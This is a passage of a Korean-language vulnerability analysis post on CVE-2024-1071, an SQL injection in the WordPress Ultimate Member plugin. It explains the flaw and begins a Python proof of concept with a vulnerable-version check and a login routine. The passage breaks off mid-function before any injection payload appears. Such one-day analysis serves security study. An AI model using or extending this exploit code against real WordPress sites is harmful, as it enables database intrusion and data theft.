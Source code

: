 ```yaml
---
title: "[CVE-2024-1071] 취약점 분석 보고서"
description: "Ultimate Member에서 발생하는 SQL Injection 취약점"
author: bde574786
date: 2024-12-22 11:32:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. Description**

**Ultimate Member** 플러그인의 **Enable custom table for usermeta** 옵션이 활성화 되어 있을 때 발생한다. `directory_id`가 `POST_ID`의 특정 부분에서 파생되고 있고 `directory_id`를 찾기 위한 요청에 제한이 없기 때문에 **무차별 대입 공격(Brute Force)**에 취약하다.  `direcotry_id`를 알아낸다면 사용자 입력값을 그대로 수용하는 sorting 변수가 존재하기 때문에 `SQL Injection` 공격이 가능하다.

## **2. Affected Version**

- Ultimate Member 2.1.3 ~ 2.8.2

## **3. PoC**

**3.1 취약한 버전 확인**

```python
def check_version(target):
    """Check if the WordPress plugin version is vulnerable."""
    print("[bold yellow][+] Searching for vulnerable versions...")
    try:
        response = requests.get(f"{target}/wp-content/plugins/ultimate-member/readme.txt", verify=False)
        version = re.search(r"Stable tag: (.*)", response.text).group(1)
    except Exception:
        print("[bold red][-] Error 404 - Version not found!")
        sys.exit(0)

    version_number = int(version.replace('.', ''))
    if 212 < version_number < 283:
        print(f"[bold green][+] {version} - ✅ Vulnerable!")
    else:
        print(f"[bold red][-] {version} - ❎ Not Vulnerable!")
        sys.exit(0)
```

**3.2 로그인**

```python
def get_login_session(username, password):
    """Log in to the WordPress site and return the session object."""
    session = requests.session()
    data = {
        "log": username,
        "pwd": password,
        "wp-submit": "Login",
        "testcookie": "1",
    }

    response = session.post(f"{TARGET}/wp-login.php", data=data, proxies=proxies)
    if any("wordpress_logged_in_" in cookie for cookie in response.cookies.keys()):
        print(f"[bold green][+] Successfully logged in with account {username}.")
        return session
    else:
```